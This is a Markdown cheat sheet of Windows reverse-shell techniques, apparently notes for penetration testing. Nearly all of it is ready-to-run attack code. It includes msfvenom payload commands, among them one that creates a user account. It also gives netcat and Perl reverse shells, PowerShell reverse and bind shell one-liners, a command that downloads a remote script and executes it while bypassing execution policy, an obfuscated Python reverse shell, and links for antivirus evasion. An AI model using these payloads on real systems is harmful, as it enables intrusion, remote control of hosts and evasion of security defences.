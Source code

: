 # Windows Reverse Shells 
## Contents
- [Windows Reverse Shells](#windows-reverse-shells)
  * [Contents](#contents)
  * [Checklist](#checklist)
  * [Test Connection with ping](#test-connection-with-ping)
  * [Web Shells](#web-shells)
  * [Reverse Shell Commands](#reverse-shell-commands)
    + [File Transfers](#file-transfers)
    + [Msfvenom](#msfvenom)
    + [Netcat](#netcat)
    + [Powershell](#powershell)
    + [Powercat](#powercat)
    + [Socat](#socat)
    + [Python](#python)
    + [Perl](#perl)
  * [Antivirus Evasion](#antivirus-evasion)
  * [Resources](#resources)

## Checklist 
Remember to check for AV before uploading common payloads! 
- [ ] Can you exec .NET commands or Powershell as well? 
- [ ] Web Shells 
- [ ] Generate a payload - msfvenom or use nc/socat/powercat
- [ ] Upload payload and invoke 
- [ ] Antivirus evasion 

## Test Connection with ping  
    tcpdump -i [interface] icmp   
    ping 127.0.0.1 
    powershell -c "Test-Connection 127.0.0.1"

## Web Shells 
[White winter wolf Linux and Windows web shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) 

[Nishang Invoke-Powershell Script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) 
[ConPty shell](https://github.com/antonioCoco/ConPtyShell)  

## Reverse Shell Commands 
Most likely you will need an exe payload as other payloads aren't usually stable / powershell Execution-Policy is often restricted. 
Generate exe with msfvenom, upload nc, socat, powercat. Find upload point / code execution point to download and execute. 

### File Transfers 
Upload pages, certutil, powershell

    powershell Invoke-WebRequest -Uri http://192.168.119.149:8888/nc.exe -OutFile C:\xampp\htdocs\nc.exe  
    
### Msfvenom 

   msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	
   msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe	
   msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe	
   msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	
   msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
   
   
Add a user in windows with msfvenom: 

    msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
   
### Netcat
upload static binary nc.exe and invoke 


    nc.exe -nv 192.168.119.149 53 -e C:\WINDOWS\system32\cmd.exe 

### Powershell 
[Powershell reverse shell scripts](https://github.com/ivan-sincek/powershell-reverse-tcp)  

    from cmd.exe, run powershell -c "payload"

    $client = New-Object System.Net.Sockets.TCPClient("192.168.119.149",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    
    
    powershell -exec bypass -c "iwr('http://192.168.0.48:8000/Invoke-PowershellTcp.ps1')|iex" 

Bind shell (run on Windows then connect from Kali)

    $listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()
    
    
### Powercat 
Powershell version of netcat 
[Powercat](https://github.com/besimorhino/powercat)  


### Socat   
[reference](https://erev0s.com/blog/encrypted-bind-and-reverse-shells-socat/)   
cmd.exe,pipes

### Python  

    C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 53)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
    
    
### Perl 

    perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:53");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'  
    
    
## Antivirus Evasion  
[PHP payload encoder](https://www.gaijin.at/en/tools/php-obfuscator#result) 

[Example - obfuscating payload to get a reverse shell on Windows](https://medium.com/@defsecone/evading-windows-defender-using-obfuscation-techniques-2494b2924807) 


## Resources  
https://github.com/d4t4s3c/Reverse-Shell-Cheat-Sheet

